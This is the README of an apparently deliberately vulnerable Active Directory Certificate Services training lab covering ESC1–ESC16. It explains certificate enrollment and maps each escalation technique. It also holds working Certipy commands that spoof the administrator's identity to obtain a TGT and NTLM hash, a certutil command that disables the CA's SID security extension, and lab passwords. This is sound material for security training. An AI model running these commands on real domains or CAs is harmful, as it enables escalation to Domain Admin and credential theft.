



# ADESC-Labs — Active Directory Certificate Services Attack Range (ESC1–ESC13)

A self-contained lab that reproduces the full family of **AD CS domain-escalation
primitives** (the "ESC" techniques catalogued by SpecterOps in *Certified
Pre-Owned*) on a single Windows Server 2019 Domain Controller running an
Enterprise Root CA. Every template and CA misconfiguration is pre-planted so a
low-privileged user can walk each path from foothold to **Domain Admin**.

> ⚠️ **Authorized training use only.** This range is intentionally vulnerable.
> Deploy it on an isolated network you own. Never point these techniques at
> infrastructure you are not explicitly authorized to test.

---

## Lab at a glance

| Item | Value |
|------|-------|
| Domain | `adescrtl.lab` (`ADESCRTL`) |
| Domain Controller / CA | `DC01` — `10.0.0.5` |
| Enterprise Root CA | `ADESC-Root-CA` |
| Web Enrollment | `http://DC01/certsrv` |
| Domain SID | `S-1-5-21-3743172807-389476742-3060699965` |
| OS | Windows Server 2019 (patched) |

### Lab identities (non-secret by design)

| Account | Password | Role |
|---------|----------|------|
| `Administrator` | *(image default / `Adm!nLab2026#`)* | Domain Admin (target) |
| `lowpriv` | `Lab12345!` | Attacker foothold |
| `victim` | `Lab12345!` | ESC9 / ESC10 target (attacker has `GenericWrite`) |
| `agentusr` | `Lab12345!` | ESC3 enrollment-agent user |

All three low-priv accounts belong to `ADESCRTL.LAB\LabUsers`, which holds enroll
rights on every planted template.



---

## How AD CS enrollment works (baseline)

Before the attacks make sense, the normal certificate-enrollment flow:



The security of the whole system rests on two questions the CA's **policy
module** answers for every request:

1. **Who is allowed to enroll?** — enrollment rights on the template (an ACL in AD).
2. **Where does the subject come from?** — either the CA builds it from the
   requester's AD account (safe) **or** the requester supplies it in the CSR
   (`ENROLLEE_SUPPLIES_SUBJECT` — the root of ESC1).

Every ESC below is a specific way to make the CA issue a certificate whose
**identity** the attacker controls, then use that certificate to authenticate
(PKINIT for Kerberos, or Schannel for LDAPS) as a privileged principal.

---

## The escalation map



| ESC | Primitive | Target object | Status in lab |
|-----|-----------|---------------|---------------|
| [ESC1](techniques/ESC1.md) | Enrollee-supplies-subject + Client Auth | Template `ESC1` | ✅ Verified → DA |
| [ESC2](techniques/ESC2.md) | Any Purpose EKU | Template `ESC2` | ✅ Verified → DA |
| [ESC3](techniques/ESC3.md) | Enrollment Agent chain | `ESC3-CRA` + `ESC3-Enroll` | ✅ Verified → DA |
| [ESC4](techniques/ESC4.md) | Template ACL (GenericAll) | Template `ESC4` | ✅ Verified → DA |
| [ESC5](techniques/ESC5.md) | PKI object ACL | CA AD object | ⚙️ Configured |
| [ESC6](techniques/ESC6.md) | `EDITF_ATTRIBUTESUBJECTALTNAME2` | CA policy flag | ✅ Verified → DA |
| [ESC7](techniques/ESC7.md) | ManageCA / ManageCertificates | CA security DACL | ⚙️ Configured |
| [ESC8](techniques/ESC8.md) | NTLM relay to Web Enrollment | `http://DC01/certsrv` | 🌐 Same-subnet only |
| [ESC9](techniques/ESC9.md) | No security extension + weak binding | Template `ESC9` | ✅ Verified → DA |
| [ESC10](techniques/ESC10.md) | Weak certificate mappings | Registry (KDC / Schannel) | ⚙️ Configured |
| [ESC11](techniques/ESC11.md) | Unencrypted ICPR relay | CA RPC flag | 🌐 Same-subnet only |
| ESC12 | Shell/HSM on CA | — | 🚫 N/A in cloud |
| [ESC13](techniques/ESC13.md) | OID-to-group link | Issuance policy → `ESC13-Privileged` | ✅ Verified |
| [ESC16](techniques/ESC16.md) | SID security extension disabled | CA `DisableExtensionList` | ✅ Enabled (enables ESC1/2/3/6/9) |

Legend: ✅ proven end-to-end in this range · ⚙️ misconfiguration present, exploit
left as exercise · 🌐 requires attacker on the DC's subnet · 🚫 not reproducible
in cloud.

---

## Tooling

| Tool | Use |
|------|-----|
| [Certipy](https://github.com/ly4k/Certipy) | Enumerate (`find`), request (`req`), authenticate (`auth`), edit templates (`template`), edit accounts (`account`) |
| [Impacket](https://github.com/fortra/impacket) `ntlmrelayx` | ESC8 / ESC11 relay |
| [Coercer](https://github.com/p0dalirius/Coercer) / PetitPotam | Authentication coercion for relay |
| `certutil` (on the DC) | CA registry inspection, template listing |

Install Certipy:

```bash
pipx install certipy-ad
```

---

## The one prerequisite that makes this lab work: ESC16

On a **fully patched** DC (post-[KB5014754](https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2609b6-6501-4bb7-8c69-13f6c22c05b0),
the default since Feb 2025) the KDC runs `StrongCertificateBindingEnforcement=2`
(Full Enforcement). The CA stamps the requester's **real SID** into the
certificate (`szOID_NTDS_CA_SECURITY_EXT`, OID `1.3.6.1.4.1.311.25.2`), and PKINIT
rejects any certificate whose spoofed SAN/UPN does not match that SID. That
single control **breaks ESC1, ESC2, ESC3, ESC6 and ESC9 outright.**

The lab deliberately disables the extension on the CA so the classic attacks
reproduce:

```powershell
certutil -setreg policy\DisableExtensionList +1.3.6.1.4.1.311.25.2
Restart-Service certsvc
```

Certipy classifies this state as **ESC16**. It is why every `req` below needs an
explicit `-sid` (there is no SID in the issued cert, so you assert one for the
tooling). See [ESC16](techniques/ESC16.md) for the full explanation and how to
re-harden.


---

## Quick validation

Enumerate the whole vulnerable surface from the attacker box:

```bash
certipy find -u lowpriv@adescrtl.lab -p 'Lab12345!' -dc-ip 10.0.0.5 -vulnerable -stdout
```

Fastest path to Domain Admin (ESC1):

```bash
certipy req -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC1 \
  -upn administrator@adescrtl.lab \
  -sid 'S-1-5-21-3743172807-389476742-3060699965-500'

certipy auth -pfx administrator.pfx -dc-ip 10.0.0.5
# -> Got TGT, Got hash for 'administrator@adescrtl.lab'
```

---

## Recurring gotchas

- **Always pass `-target DC01.adescrtl.lab`.** Without it Certipy cannot reliably
  resolve the CA's RPC host and the request fails with
  `0x80094800 CERTSRV_E_UNSUPPORTED_CERT_TYPE`.
- **Always pass `-sid`.** Because of ESC16 the issued cert has no SID; Certipy
  warns *"Certificate has no object SID"* and PKINIT needs the SID asserted.
- **ESC9 vs ESC10 fight over one registry key.** `StrongCertificateBindingEnforcement`
  is `1` for ESC9 and `0` for ESC10. Run them as separate exercises and toggle
  `HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement`.
- **After the ESC4 exercise, re-run the deploy's Phase2** to restore the `ESC4`
  template to its benign state for the next student.

---

## Credits

Techniques from SpecterOps *[Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)*
(Will Schroeder & Lee Christensen) and the ESC9–ESC16 follow-on research. Tooling
by Oliver Lyak (Certipy) and the Impacket maintainers.
